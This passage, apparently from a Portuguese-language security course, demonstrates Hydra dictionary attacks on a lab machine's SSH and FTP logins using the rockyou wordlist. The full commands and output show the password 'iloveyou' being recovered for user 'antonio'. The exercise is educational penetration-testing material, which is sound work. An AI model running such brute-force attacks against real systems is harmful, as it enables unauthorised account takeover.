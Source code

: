 O primeiro exemplo utiliza a opção ``-l``, seguida do usuário ``antonio`` (opção ``-l``), o dicionário de senhas (``-P rockyou-menor.txt.``), o IP da vítima e principalmente do protocolo ``ssh``:

> Todos os exemplo a seguir utilizarão o mesmo formato, mudando-se basicamente o protocolo utilizado.

```console
$ hydra -l antonio -P rockyou-menor.txt 192.168.122.47 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-10 10:33:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1166511 login tries (l:1/p:1166511), ~72907 tries per task
[DATA] attacking ssh://192.168.122.47:22/
[22][ssh] host: 192.168.122.47   login: antonio   password: iloveyou
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-10 10:33:15

real	0m2.284s
user	0m0.146s
sys	0m0.060s
```

Na saída anterior é possível observar que a senha foi obtida com sucesso, já que pelos exemplos anteriores, nós já sabíamos que a senha do ``antonio`` era ``iloveyou``. Tal senha foi obtida com 2.284 segundos de teste. Isso demonstra que a busca por senhas em dicionários de um único usuário pode ser considerada relativamente rápida, quando comparada à busca utilizando lista de usuários e dicionário de senhas, tal como no Exemplo 1.

#### Hydra FTP

Mesmo teste do anterior, mas com o serviço de servidor de arquivos [FTP](https://pt.wikipedia.org/wiki/Protocolo_de_Transfer%C3%AAncia_de_Arquivos):

```console
$ hydra -l antonio -P rockyou-menor.txt 192.168.122.47 ftp
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-10 13:15:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1166511 login tries (l:1/p:1166511), ~72907 tries per task
[DATA] attacking ftp://192.168.122.47:21/
[21][ftp] host: 192.168.122.47   login: antonio   password: iloveyou
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-10 13:16:00

real	0m3.120s
user	0m0.137s
sys	0m0.040s
```
